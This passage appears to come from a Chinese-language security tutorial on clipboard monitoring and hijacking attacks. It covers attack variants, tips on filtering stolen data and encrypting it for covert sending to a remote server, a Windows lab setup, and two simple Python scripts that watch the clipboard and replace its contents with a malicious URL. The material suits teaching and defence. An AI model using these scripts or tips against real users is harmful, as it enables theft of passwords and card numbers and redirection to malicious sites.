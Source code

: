 **攻击原理**：攻击者通过读取剪贴板中的数据，获取敏感信息。

**变种**：
- **选择性提取**：攻击者仅提取特定格式或内容的数据，如信用卡号或密码。
- **批量提取**：攻击者批量提取剪贴板数据，进行离线分析。

**高级利用技巧**：
- **数据过滤**：攻击者通过正则表达式或其他过滤手段，提取特定模式的数据。
- **数据加密**：攻击者将提取的数据加密后发送到远程服务器，避免被检测。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建

**操作系统**：Windows 10

**工具**：
- **Python**：用于编写剪贴板监控脚本。
- **Pyperclip**：Python库，用于操作剪贴板。
- **Process Monitor**：用于监控剪贴板相关操作。

**步骤**：
1. 安装Python和Pyperclip库：
   ```bash
   pip install pyperclip
   ```
2. 下载并安装Process Monitor。

### 3.2 剪贴板监听攻击

**攻击步骤**：
1. 编写Python脚本，使用Pyperclip库监听剪贴板数据变化：
   ```python
   import pyperclip
   import time

   def monitor_clipboard():
       last_clipboard = pyperclip.paste()
       while True:
           current_clipboard = pyperclip.paste()
           if current_clipboard != last_clipboard:
               print(f"Clipboard changed: {current_clipboard}")
               last_clipboard = current_clipboard
           time.sleep(1)

   if __name__ == "__main__":
       monitor_clipboard()
   ```
2. 运行脚本，观察剪贴板数据变化。

### 3.3 剪贴板劫持攻击

**攻击步骤**：
1. 编写Python脚本，使用Pyperclip库修改剪贴板数据：
   ```python
   import pyperclip

   def hijack_clipboard():
       malicious_content = "http://malicious-site.com"
       pyperclip.copy(malicious_content)
       print("Clipboard hijacked with malicious content.")

   if __name__ == "__main__":
       hijack_clipboard()
   ```
2. 运行脚本，观察剪贴板内容是否被修改。
